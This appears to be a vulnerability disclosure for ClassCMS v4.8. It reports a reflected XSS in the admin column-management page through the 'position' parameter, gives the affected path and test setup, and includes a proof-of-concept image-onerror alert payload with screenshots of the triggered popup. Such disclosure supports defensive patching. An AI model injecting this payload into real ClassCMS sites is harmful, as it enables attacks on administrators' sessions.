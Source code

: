 #### BUG_AUTHOR:acmglz
# Classcms Reflected xss exists in the background column management
## Download address:
https://github.com/ClassCMS/ClassCMS/releases/tag/v4.8
## Version:V4.8
## Tested on: PHP, Apache, MySQL
## Affected Page:
/index.php/admin

On this page, position parameter is vulnerable to reflected XSS Attack 
## Proof of vulnerability:
## Payload：
```
<img src=1 onerror=alert(/222/)>
```
## Trigger popup：
![image](https://github.com/user-attachments/assets/85bb6ac7-d3cc-4549-a0c8-c2324e2b4a66)


This page can be triggered after being modified

![image](https://github.com/user-attachments/assets/1ca59044-fec6-497d-bc3d-54563d4cf882)

![image](https://github.com/user-attachments/assets/31cdc6f8-0c03-421e-aada-951cd45d736e)

